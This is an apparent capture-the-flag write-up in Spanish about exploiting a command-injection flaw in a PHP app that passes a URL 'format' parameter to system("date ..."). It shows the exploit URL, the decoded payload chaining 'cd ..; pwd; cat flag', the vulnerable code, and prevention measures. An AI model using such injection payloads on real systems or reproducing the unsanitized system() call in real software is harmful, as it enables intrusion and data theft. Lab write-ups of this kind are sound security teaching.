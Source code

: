 🔥 Resumen del Reto
Este desafío consistió en explotar una vulnerabilidad de inyección de comandos en una aplicación web que procesaba un parámetro format en la URL. El objetivo era leer el archivo flag.txt inyectando comandos a través del parámetro. ¡Hack the Planet! 🌍💻

🧠 Detalles de la Explotación
💻 URL Vulnerable
bash
http://94.237.53.203:55075/?format=date%20%27+;%20cd%20..%20;%20pwd;%20cat%20flag%27
# Traducción: date '; cd .. ; pwd; cat flag'
🛠️ Análisis Técnico
🔧 Comando Base:

La app usaba date con parámetro de formato ⏳

Uso normal: ?format=Y-m-d → date "Y-m-d"

🔗 Codificación URL:

%20 = Espacio ( )

%27 = Comilla simple (')

%3B = Punto y coma (;) [no usado aquí pero común]

💣 Payload Malicioso:

bash
date ''; cd ..; pwd; cat flag'
# 🎯 Rompe la consulta original y añade comandos
⚡ Comandos Ejecutados:

bash
1. date ''        # Comando original neutralizado
2. cd ..          # 📂 Navegación de directorios
3. pwd            # 🗺️ Verificación de ruta (opcional)
4. cat flag       # 🏁 ¡Obtención de la flag!
🕵️ ¿Cómo Funcionó?
La aplicación vulnerable tenía este flujo:

php
<?php
$format = $_GET['format'];
system("date '$format'");  # ¡Peligro! Input sin sanitizar
?>
🛡️ Medidas de Prevención
Tácticas de Seguridad	Ejemplos
🔐 Validación de Input	filter_var()
🚫 Listas Blancas	Solo permitir Y-m-d, H:i:s
⚔️ Escapado de Caracteres	escapeshellarg()
🛑 Evitar Comandos Shell	Usar DateTime() de PHP
📌 Lecciones Aprendidas
Nunca confíes en el input del usuario 🚨

Los parámetros URL son vectores comunes de ataque 🎯

Siempre sanitiza y valida los datos 🔍

Usa alternativas seguras a system()/exec() 🛡️

¡Happy Hacking! 😈💻 (pero solo en entornos autorizados)